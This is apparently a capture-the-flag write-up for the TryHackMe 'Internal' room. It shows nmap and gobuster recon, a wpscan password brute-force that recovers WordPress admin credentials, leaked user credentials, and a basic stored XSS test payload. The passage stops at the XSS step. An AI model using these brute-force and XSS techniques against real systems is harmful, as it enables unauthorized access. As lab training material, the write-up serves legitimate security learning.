


# Internal #
### Note: Having accepted the project, you are provided with the client assessment environment.  Secure the User and Root flags and submit them to the dashboard as proof of exploitation. ###


### https://tryhackme.com/r/room/internal ###

------------------------------------------------------------------------------------------

### RECON: ### 
+ Ensure that you modify your hosts file to reflect internal.thm

+ Scan the target machine with Nmap and Gobuster:

```bash
nmap -sV -vv -A -p- -T4 internal.thm
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpZTvmUlaHPpKH8X2SHMndoS+GsVlbhABHJt4TN/nKUSYeFEHbNzutQnj+DrUEwNMauqaWCY7vNeYguQUXLx4LM5ukMEC8IuJo0rcuKNmlyYrgBlFws3q2956v8urY7/McCFf5IsItQxurCDyfyU/erO7fO02n2iT5k7Bw2UWf8FPvM9/jahisbkA9/FQKou3mbaSANb5nSrPc7p9FbqKs1vGpFopdUTI2dl4OQ3TkQWNXpvaFl0j1ilRynu5zLr6FetD5WWZXAuCNHNmcRo/aPdoX9JXaPKGCcVywqMM/Qy+gSiiIKvmavX6rYlnRFWEp25EifIPuHQ0s8hSXqx5
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMFOI/P6nqicmk78vSNs4l+vk2+BQ0mBxB1KlJJPCYueaUExTH4Cxkqkpo/zJfZ77MHHDL5nnzTW+TO6e4mDMEw=
|   256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMlxubXGh//FE3OqdyitiEwfA2nNdCtdgLfDQxFHPyY0
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

```bash
gobuster dir -u http://internal.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -xtxt,php,html -t64
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/blog                 (Status: 301) [Size: 311] [--> http://internal.thm/blog/]
/index.html           (Status: 200) [Size: 10918]
/.php                 (Status: 403) [Size: 277]
/wordpress            (Status: 301) [Size: 316] [--> http://internal.thm/wordpress/]
/javascript           (Status: 301) [Size: 317] [--> http://internal.thm/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://internal.thm/phpmyadmin/]
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

### WORDPRESS ###
+ First we use tool "Wpscan" to scan the website wordpress:





+ We've found the user "admin" and we continue to scan user:

```bash
wpscan --url http://internal.thm/wordpress/ -U admin -P /usr/share/wordlists/rockyou.txt
```


--> We had the credential Wordpress admin:my2boys

+ Login with "admin", we are in Dashboard. Now we go to look around all features to find what the vulnearability will appear.
+ We've found the Private Post in Posts and the credential of user William but we do not know where we can log in with this. 


--> The credential was leaked: william:arnold147

### XSS ###
+ The vulnerability XSS appear in feature "Comments".
+ We will test common payload XSS first:

```bash
<script>alert('XSS')</script>
```


+ When we update comment and "View Post" so the website pop up the box alert:


